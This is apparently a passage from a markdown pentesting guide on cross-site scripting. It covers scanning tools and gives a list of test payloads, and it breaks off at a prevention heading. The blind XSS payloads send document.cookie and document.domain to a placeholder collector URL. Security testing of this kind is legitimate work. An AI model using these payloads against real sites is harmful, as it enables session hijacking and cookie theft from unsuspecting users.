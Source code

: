 #### **C. XSS.report** 🚨
- **Where to use**: Any place where you suspect Blind XSS vulnerabilities (Admin panels, comment sections).  
- **How to Use**:  
  - Use **XSS.report** to track Blind XSS attacks by redirecting payloads to your **XSS.report** endpoint, which will notify you once the payload is executed on the target server (e.g., when an admin views the data).

#### **D. Nuclei (Template-based Scanning)** 📜
- **Where to use**: Web application endpoints or URL parameters.  
- **How to Use**:  
  - Run a Nuclei scan with XSS-specific templates to automatically find reflected or stored XSS vulnerabilities.

#### **E. XSStrike** ⚡
- **Where to use**: Input fields, URL parameters.  
- **How to Use**:  
  - Use `XSStrike` to fuzz input fields and try various payloads, including advanced XSS payloads.  
  - It uses techniques like **boilerplate injection** to bypass filters.

#### **F. Wapiti** 🛡️
- **Where to use**: Web applications (general-purpose scanner).  
- **How to Use**:  
  - Run Wapiti against web applications to identify reflected and stored XSS vulnerabilities by testing form fields, URL parameters, and other user inputs.

---

## **Common XSS Payloads for Testing** 💥

1. **Reflected XSS Payloads**:
    - `<script>alert(1)</script>`
    - `"><script>alert(1)</script>`
    - `<img src="x" onerror="alert(1)">`

2. **Stored XSS Payloads**:
    - `<script>alert(document.cookie)</script>`
    - `<img src="x" onerror="alert(document.domain)">`

3. **DOM-based XSS Payloads**:
    - `javascript:alert(1)`
    - `"><img src=x onerror=alert(1)>`

4. **Blind XSS Payloads**:
    - `<script>new Image().src='http://your-xss-report-url/'+document.domain;</script>`
    - `<script>fetch('http://your-xss-report-url/'+document.cookie);</script>`

---

## **How to Prevent XSS** 🔒
